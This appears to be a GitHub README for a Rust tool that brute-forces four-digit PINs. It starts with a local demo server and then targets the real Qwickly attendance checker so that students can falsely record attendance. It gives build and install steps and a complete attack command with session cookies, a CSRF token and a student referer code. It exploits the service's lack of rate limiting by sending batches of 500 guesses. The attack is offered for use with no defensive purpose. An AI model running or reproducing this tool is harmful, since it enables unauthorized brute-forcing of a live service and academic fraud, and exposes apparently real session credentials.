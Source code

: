 # Crack Remote Pin
Rust example of cracking a 4-digit pin on a remote server.  

The cracking HTTP requests are executed asynchronously, so the futures will take some time to build up to 500 in a vector and then executed at once roughly (there are probably better ways to do this).  

1. Start the pin server
```
cd pin_server
cargo run
```

2. Crack the pin on the running server
```
cd cracker
cargo run
```

## Qwickly Attendance Crack
The qwickly attendance checker asks for a 4-digit pin, which a lecturer will share with the class on a screen. Luckily qwickly don't have any spam-defense mechanisms at all, can make 500 POST requests with different pins in a short space of time without it preventing it.

Build and install on Linux:
```
cd qwickly_cracker
cargo build --release
sudo mv ./target/release/qwickly_cracker /usr/local/bin
qwickly_cracker --help
```

The request needs to be crafted properly though to post without hitting an error - the referer header includes a unique code for each student:

1. Visit Qwickly attendance tracker page and just make a request for pin "0001" or any number, have "network" tab of browser tools open and "copy as cURL" the request

2. Take the required fields out of that(The headers and request body with the CSRF token and pin field) and use it in the command. Make sure to replace "0001" with "{pin}" in the `data-no-pin` content, for example:

```
qwickly_cracker --referer 'https://www.qwickly.tools/attendance/takerecord/?code=BuYAp0o5b11JNFonnZtFrqWxYX2xAI3B&' --user-agent 'Mozilla/5.0 (X11; Linux x86_64; rv:104.0) Gecko/20100101 Firefox/104.0' --cookie 'AWSALB=AoMLFg/sY5unylBB4wo1UuftVvB74l2QvqGuwUZZzkBBPD+04k7cu0Py692RPzeMSdmMSJxUqKhsFWj8X162GHWtMWjr9IPAyE8FTMNXC98aawjJqkylnkNLhKeb; AWSALBCORS=AoMLFg/sY5unylBB4wo1UuftVvB74l2QvqGuwUZZzkBBPD+04k7cu0Py692RPzeMSdmMSJxUqKhsFWj8X162GHWtMWjr9IPAyE8FTMNXC98aawjJqkylnkNLhKeb; sessionid=if3l9orgzd7ydeah0baqn7ynlg2anp1w' --data-no-pin 'csrfmiddlewaretoken=MpUgZaDVxhfOq41BuGIrIGHXzUz8pfWrLiApCa7XM7OTISwq50dx7hvLQnvYiTZV&check_in_pin={pin}&student_check_in=Check+In&check_in_id='
```

3. The default pin range start and end is from 0000 to 9999 inclusive. The default `pin_chunk_size` is 500, meaning that 500 pin requests will be gathered in a vector of futures and then executed. Once a successful pin is found, qwickly will stop returning "Incorrect" in the HTML content, the 500 chunk will complete and the first pin cracked in that chunk is the correct pin and will be printed.
